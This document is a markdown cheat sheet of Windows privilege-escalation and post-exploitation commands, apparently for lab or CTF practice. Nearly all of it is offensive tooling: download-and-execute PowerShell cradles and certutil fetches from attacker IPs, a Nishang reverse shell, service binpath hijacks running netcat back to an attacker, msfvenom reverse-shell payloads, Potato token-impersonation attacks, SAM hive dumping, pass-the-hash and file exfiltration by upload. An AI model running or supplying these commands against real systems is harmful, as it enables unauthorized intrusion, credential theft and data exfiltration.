## Meterpreter
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```
### Port forward
```
portfw add -l 455 -p 455 -r 127.0.0.1
```
### Rotten Potato
```
load incognito
list_tokens -u
execute -cH -f rottenpotato.exe
impersonate_token BUILTIN\Administrators
```

## Windows Enum and Utilities
### Manual
```
whoami /all
net user
hostname
systeminfo
tasklist /SVC
ipconfig /all
route print
netstat -ano
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
schtasks /query /fo LIST /v
wmic product get name, version, vendor
wmic qfe get Caption, Description, HotFixID, InstalledOn
accesschk.exe -uws "Everyone" "C:\Program Files"
powershell -c "driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path"
powershell -c "Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like '*VMware*'}"
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```
### Script
```
echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/PowerUp.ps1') | powershell -noprofile -
certutil -urlcache -split -f http://192.168.119.199/windows-privesc-check2.exe
```

### Reverse powershell using Nishang
```
cp ~/post-exploit/nishang/Shells/Invoke-PowerShellTcp.ps1 ~/HTB/chatterbox/
powershell "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')"
```

### Check permission
```
Get-ACL administrator | Fl *
icacls "file"
```

### Change file permission
```
cacls root.txt /t /e /p Alfred:F
```

### Get sam
```
reg save hklm\sam c:\sam
reg save hklm\system c:\system
```

### With NTLM hash
```
pth-winexe -U jeeves/administrator //10.10.10.63 cmd.exe
```

### Juicy Potato
```
JuicyPotato.exe -l 7777 -p C:\Users\Public\hope.exe -t *
```

### smbserver.py
On attacker machine
```
sudo smbserver.py quang `pwd`
```

On victim machine
```
New-PSDrive -Name "yoyo" -PSProvider FileSystem -Root "\\10.10.14.3\quang"
cd yoyo:
```
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```
or Create ps file with
```
$client = new-object System.Net.WebClient
$client.DownloadFile("http://10.10.14.3/shell.exe","C:\users\kohsuke\shell.exe")
```

### Upload
```
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.199/upload.php', 'important.docx')
```

### Hidden bin folder for 64bit
```
C:\WINDOWS\sysnative\WindowsPowerShell\v1.0\powershell.exe
C:\WINDOWS\syswow64\WindowsPowerShell\v1.0\powershell.exe
```
## Common Vuln
### Weak service permission
How to spot
```
Use PowerUp script
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
sc qc servicename
```
Exploit
```
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost
```
### An user is admin
Exploit
#### Run as user
```
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')" -Credential $cred
```

#### Run as NTAuth/System from local admin
```
PsExec.exe -accepteula -i -s %SystemRoot%\System32\cmd.exe
sc create newservicename binPath= "C:\windows\system32\cmd.exe"
sc start newservicename
```

### Elevate from local service or network service
https://github.com/itm4n/FullPowers

### Weak Service binary permission or unquoted service path
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.199 LPORT=443 -f exe-service > shell.exe
```

### Local service
How to spot
```
netstat -ano
tasklist /svc
tasklist /v /fi "pid eq 123"
```

### always install elevated
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=443 –f msi > shell.msi
msiexec /quiet /qn /i shell.msi
```

### DLL injection
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking
